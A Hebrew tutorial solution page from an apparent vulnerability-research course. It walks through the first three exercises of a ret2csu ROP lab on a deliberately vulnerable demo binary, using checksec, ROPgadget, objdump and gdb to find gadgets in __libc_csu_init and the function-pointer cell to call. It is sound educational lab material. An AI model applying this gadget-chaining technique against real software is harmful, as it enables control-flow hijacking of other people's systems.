

repository: AmitPinchasi/amittech · page: מחקר-חולשות/6 - ROP מתקדם/6.2 - ret2csu/6.2 - ret2csu - פתרון/index.html · generator: mkdocs

## פתרון - ret2csu

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. הכתובות בפלט הן דוגמה - אצלכם הן עשויות להיות שונות בין גרסאות מהדר, אז תמיד שלפו את הכתובות מהבינארי שלכם ולא תעתיקו עיוור.

### פתרון תרגיל 1 - סיור, הגנות, ואישור שאין pop rdx

בדיקת ההגנות:

```bash
$ checksec --file=./demo
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

בדיוק מה שרצינו: NX פעיל, אין canary, אין PIE. כל הכתובות בבינארי קבועות.

מוודאים שאין `pop rdx`:

```bash
$ ROPgadget --binary ./demo | grep 'pop rdx ; ret'
$
```

אין פלט. אין דרך פשוטה לטעון את `rdx`, ולכן אנחנו זקוקים ל-`ret2csu`. מאשרים שהפונקציה קיימת:

```bash
$ objdump -d ./demo | grep '<__libc_csu_init>:'
00000000004011c0 <__libc_csu_init>:
```

מצוין, יש לנו את מאגר הגאדג'טים.

### פתרון תרגיל 2 - מציאת שני הגאדג'טים

מפרקים את סוף הפונקציה:

```bash
$ objdump -d ./demo | grep -A24 '<__libc_csu_init>:'
```

והפלט הרלוונטי:

```asm
00000000004011c0 <__libc_csu_init>:
  ...
  4011da:  mov    rdx, r15
  4011dd:  mov    rsi, r14
  4011e0:  mov    edi, r13d
  4011e3:  call   QWORD PTR [r12+rbx*8]
  4011e7:  add    rbx, 0x1
  4011eb:  cmp    rbp, rbx
  4011ee:  jne    4011da
  4011f0:  add    rsp, 0x8
  4011f4:  pop    rbx
  4011f5:  pop    rbp
  4011f6:  pop    r12
  4011f8:  pop    r13
  4011fa:  pop    r14
  4011fc:  pop    r15
  4011fe:  ret
```

משם קוראים את שתי הכתובות:

- `csu_call = 0x4011da` - השורה `mov rdx, r15`, שממנה מתחיל רצף ה-mov/call.
- `csu_pop  = 0x4011f4` - השורה `pop rbx`, שממנה מתחיל רצף שש הוראות ה-pop עד ה-`ret`.

כמו שהזכרנו בתרגול, גאדג'ט ה-mov/call מסתיים ב-`call` ולא ב-`ret`, ולכן `ROPgadget` בברירת מחדל לא מציג אותו. `objdump` הוא הדרך הבטוחה למצוא אותו.

### פתרון תרגיל 3 - מציאת התא של מצביע הפונקציה

`call [r12+rbx*8]` עם `rbx=0` הוא `call [r12]`, כלומר `r12` צריך להצביע על תא שמכיל את כתובת `print_flag`. התא הזה הוא `g_target`:

```bash
$ objdump -t ./demo | grep g_target
0000000000404050 g     O .data  0000000000000008 g_target
```

מוודאים ש-`g_target` באמת מכיל את הכתובת של `print_flag`:

```text
$ gdb ./demo
pwndbg> p print_flag
$1 = {void (unsigned int, unsigned long, unsigned long)} 0x401176 <print_flag>
pwndbg> x/gx &g_target
0x404050 <g_target>:  0x0000000000401176
```

הערך בתוך `g_target` (בכתובת `0x404050`) הוא `0x401176`, שזו בדיוק הכתובת של `print_flag`. אז נשים `r12 = 0x404050` (הכתובת של `g_target`), ואז `call [r12]` יקרא ל-`print_flag`. אל תשימו את `0x401176` ב-`r12` - זו טעות קלאסית שתגרום לקריאה לזבל.
